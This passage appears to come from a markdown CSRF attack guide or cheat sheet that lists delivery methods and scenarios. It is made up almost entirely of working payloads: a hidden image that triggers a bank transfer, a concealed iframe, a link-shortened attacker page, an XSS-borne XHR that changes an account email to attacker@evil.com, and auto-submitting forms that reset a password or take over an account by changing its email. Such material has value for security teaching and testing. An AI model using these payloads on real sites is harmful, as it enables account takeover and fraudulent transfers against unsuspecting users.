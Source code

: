 ## CSRF Delivery Methods

### Via Email

```html
<!-- HTML email with hidden image -->
<img src="https://bank.com/transfer?to=attacker&amount=1000" width="1" height="1">
```

### Via Websites

```html
<!-- Malicious website with embedded attack -->
<iframe style="display:none" src="csrf-attack.html"></iframe>
```

### Link Shorteners

```
Original: https://attacker.com/csrf.html
Shortened: https://bit.ly/3xYz123
```

### Via XSS

```javascript
// If an XSS vulnerability exists on the target site
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', '/change_email', true);
    xhr.withCredentials = true;
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('email=attacker@evil.com');
</script>
```

## Specific Attack Scenarios

### Password Change

```html
<form action="https://target.com/change_password" method="POST" id="csrf-form">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

### Account Takeover via Email Change

```html
<form action="https://target.com/change_email" method="POST" id="csrf-form">
    <input type="hidden" name="new_email" value="attacker@evil.com">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```
